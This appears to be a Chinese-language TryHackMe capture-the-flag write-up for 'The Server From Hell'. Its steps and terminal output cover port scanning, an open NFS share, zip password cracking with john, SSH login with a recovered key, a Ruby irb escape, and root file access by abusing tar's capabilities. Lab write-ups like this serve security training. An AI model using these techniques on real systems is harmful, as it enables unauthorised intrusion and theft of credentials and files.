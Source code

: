 ```yaml
---
sidebar_position: 114
tags: [Easy, Linux, Capabilities, services]
title: "The Server From Hell"
description: "The Server From Hell"
sidebar_label: "The Server From Hell"
slug: /tryhackme/114
---
```


# The Server From Hell

## 端口扫描

```bash
root@ip-10-10-4-132:~# nmap -sT -p 1377-65535 --min-rate 1000 10.10.217.149
```

- 题目告诉我们建议从 1337 端口开始, 在我们扫描之后可以看到有很多输出

当我连接 1337 端口时给出了一段提示, 告诉我们要关注前 100 个 端口, 接着我继续进行了利用

```bash
root@ip-10-10-4-132:~# nc 10.10.217.149 1337
Welcome traveller, to the beginning of your journey
To begin, find the trollface
Legend says he's hiding in the first 100 ports
Try printing the banners from the ports
```

在这次枚举中一直在提示我 12345 , 这可能是个端口号我接着进行了连接测试

```bash
root@ip-10-10-4-132:~/theserverfromhell# nmap -sTCV -p 1-100 --min-rate 1000 10.10.217.149
PORT    STATE SERVICE            VERSION
1/tcp   open  tcpmux?
| fingerprint-strings: 
|   NULL: 
|_    550 12345 0000000000000000000000000000000000000000000000000000000
......

```

在这次连接中, 其告诉我们存在 NFS 共享在默认位置

```bash
root@ip-10-10-4-132:~/theserverfromhell# nc 10.10.217.149 12345
NFS shares are cool, especially when they are misconfigured
It's on the standard port, no need for another scan
```

## NFS

根据之前的消息,现在我们将尝试利用 NFS 服务进行操作, 从下面的信息我们可以看出存在一个共享并且其中存在一个共享的压缩文件,

```bash
root@ip-10-10-4-132:~/theserverfromhell# showmount -e 10.10.217.149
Export list for 10.10.217.149:
/home/nfs *
root@ip-10-10-4-132:~/theserverfromhell# mkdir nfs
root@ip-10-10-4-132:~/theserverfromhell#  mount -t nfs  10.10.217.149:/home/nfs ./nfs/  -o nolock
root@ip-10-10-4-132:~/theserverfromhell# cd nfs/
root@ip-10-10-4-132:~/theserverfromhell/nfs# ls
backup.zip
root@ip-10-10-4-132:~/theserverfromhell/nfs# ls -al
total 16
drwxr-xr-x 2 nobody nogroup 4096 Sep 15  2020 .
drwxr-xr-x 3 root   root    4096 Sep 25 03:27 ..
-rw-r--r-- 1 root   root    4534 Sep 15  2020 backup.zip
```

将上面发现的压缩文件复制到本地并且进行解压缩 (存在加密并进行解密)

```bash
root@ip-10-10-4-132:~/theserverfromhell# john hash.txt --wordlist=`locate rockyou.txt`
Using default input encoding: UTF-8
Loaded 1 password hash (PKZIP [32/64])
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
zxcvbnm          (backup.zip)
1g 0:00:00:00 DONE (2023-09-25 03:31) 100.0g/s 409600p/s 409600c/s 409600C/s 123456..oooooo
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
root@ip-10-10-4-132:~/theserverfromhell# unzip backup.zip 
Archive:  backup.zip
   creating: home/hades/.ssh/
[backup.zip] home/hades/.ssh/id_rsa password: 
  inflating: home/hades/.ssh/id_rsa  
 extracting: home/hades/.ssh/hint.txt  
  inflating: home/hades/.ssh/authorized_keys  
 extracting: home/hades/.ssh/flag.txt  
  inflating: home/hades/.ssh/id_rsa.pub
root@ip-10-10-4-132:~/theserverfromhell/home/hades/.ssh# cat hint.txt 
2500-4500
```

从上面的信息中我们可以看出我们是有了 SSH 的密钥, 因此我们可以进行 SSH 的会话登陆, 并且其又告诉我们一个端口范围我们需要在此枚举以此定位 SSH 端口

```bash
root@ip-10-10-4-132:~/theserverfromhell# nmap -sTCV -p 2500-4500 --min-rate 1000 10.10.217.149
.....
3328/tcp open  telnet
| fingerprint-strings: 
|   NULL: 
|     PRICOM 3100 Ver ee TELNET server.
|     Copyright (C) 2002-2004 silex technology, Inc.
|_    login:
3329/tcp open  telnet              BusyBox telnetd
3330/tcp open  smtp-proxy          1st SMTP relay
3331/tcp open  http                GoAhead WebServer
|_http-server-header: GoAhead-Webs
|_http-title: Document Error: Page not found
3332/tcp open  mcs-mailsvr?
| fingerprint-strings: 
|   NULL: 
|_    JTAG Server
3333/tcp open  ssh                 OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 37:4d:be:c4:8f:c2:20:43:bb:01:f2:10:fc:bd:ff:93 (RSA)
|   256 2d:23:13:84:ff:cb:00:b4:71:2a:5e:56:72:d6:90:e5 (ECDSA)
|_  256 22:34:b2:2f:4a:17:87:0e:75:5b:d3:a1:a4:8a:f5:d8 (EdDSA)
3334/tcp open  http                Ambit DOCSIS router http config (R4)
|_http-generator: Multi-Functional Broadband NAT Router (R4)
|_http-server-header: Embeded_httpd
|_http-title: Site doesn't have a title (text/html).
3335/tcp open  smtp                Hamster smtpd (Access denied)
|_smtp-commands: SMTP EHLO ip-10-10-217-149.eu-west-1.compute.internal: failed to receive data: connection closed
3336/tcp open  directv-tick?
3337/tcp open  http                Siemens Gigaset . .&.D. WAP http confi
.....
```

## 后渗透

### hades(irb)

使用我们发现的密钥以及用户进行登陆, 发现其是一个 ruby 的交互式客户端, 因此我们需要进行一些简单的逃逸

```bash
root@ip-10-10-4-132:~/theserverfromhell/home/hades/.ssh# ssh -i id_rsa hades@10.10.217.149 -p 3333
irb(main):006:0> system('whoami')
hades
=> true
```

### hades(irb) —> hades (host)

我们可以借助上面的 system 进行执行命令来获取 Shell

![Untitled](https://raw.githubusercontent.com/Guardian-JTZ/Image/main/img/20240709-133836.png)

### hades —> root

我发现 tar 命令存在 capabilities 特权所以我们可以打包 root 目录进行操作

```bash
(remote) hades@hell:/home$ getcap -r / 2>/dev/null 
/usr/bin/mtr-packet = cap_net_raw+ep
/bin/tar = cap_dac_read_search+ep
(remote) hades@hell:/tmp$ /bin/tar -czvf root.tar.gz /root
/bin/tar: Removing leading `/' from member names
/root/
/root/.gnupg/
/root/.gnupg/private-keys-v1.d/
/root/.bashrc
/root/root.txt
/root/.bash_history
/root/.ssh/
/root/.ssh/authorized_keys
/root/.cache/
/root/.cache/motd.legal-displayed
/root/.profile
```